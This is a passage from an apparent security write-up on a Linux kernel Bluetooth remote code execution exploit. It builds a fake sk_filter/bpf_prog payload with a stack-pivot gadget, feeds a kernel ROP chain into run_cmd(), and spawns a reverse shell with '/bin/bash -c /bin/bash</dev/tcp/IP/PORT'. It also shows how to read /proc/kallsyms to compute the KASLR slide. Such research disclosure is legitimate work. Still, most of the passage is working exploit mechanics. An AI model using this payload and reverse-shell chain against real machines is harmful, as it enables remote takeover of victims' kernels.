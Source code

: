When choosing the stack pivot gadget as a function pointer for `bpf_func()` and triggering it, the value of RSI will be pushed onto stack, then popped from stack and finally assigned to RSP. In other words, the stack pointer will point to our payload, and once the `RET` instruction is executed, our ROP chain will kick off.

```c
static void build_payload(uint8_t data[0x400]) {
  // Fake sk_filter object starting at offset 0x300.
  *(uint64_t *)&data[0x318] = l2cap_chan_addr + 0x320;  // prog

  // Fake bpf_prog object starting at offset 0x320.
  // RBX points to the amp_mgr object.
  *(uint64_t *)&data[0x350] =
      kaslr_offset +
      PUSH_RSI_ADD_BYTE_PTR_RBX_41_BL_POP_RSP_POP_RBP_RET;  // bpf_func
  *(uint64_t *)&data[0x358] = 0xDEADBEEF;                   // rbp

  // Build kernel ROP chain that executes run_cmd() from kernel/reboot.c.
  // Note that when executing the ROP chain, the data below in memory will be
  // overwritten. Therefore, the argument should be located after the ROP chain.
  build_krop_chain((uint64_t *)&data[0x360], l2cap_chan_addr + 0x3c0);
  strncpy(&data[0x3c0], remote_command, 0x40);
}
```

With that, we have finally achieved RCE. To debug our stack pivot and see if we were successful, we can set `*(uint64_t *)&data[0x360]=0x41414141` and observe a controlled panic.

#### Kernel ROP Chain Execution

Now, we can either write a big ROP chain that retrieves and executes a C payload, or a smaller one that allows us to run an arbitrary command. For the sake of the Proof-Of-Concept, we are already satisfied with a reverse shell, thus executing a command is enough for us. Inspired by the ROP chain described in the write-up [CVE-2019-18683: Exploiting a Linux kernel vulnerability in the V4L2 subsystem](https://a13xp0p0v.github.io/2020/02/15/CVE-2019-18683.html), we will build a chain that calls `run_cmd()` with `/bin/bash -c /bin/bash</dev/tcp/IP/PORT` to spawn a reverse shell, and finally calls `do_task_dead()` to stop the kernel thread. After that, Bluetooth will no longer work. In a more sophisticated exploit, we would resume the execution.

To determine offsets for both methods, we can simply inspect the live symbols on the victim's machine:

```bash
$ sudo cat /proc/kallsyms | grep "run_cmd\|do_task_dead"
ffffffffab2ce470 t run_cmd
ffffffffab2dc260 T do_task_dead
```

Here, the KASLR slide is 0x2a200000 which can be calculated by grep'ing for the `_text` symbol and subtracting `0xffffffff81000000`:

```bash
$ sudo cat /proc/kallsyms | grep "T _text"
ffffffffab200000 T _text
```
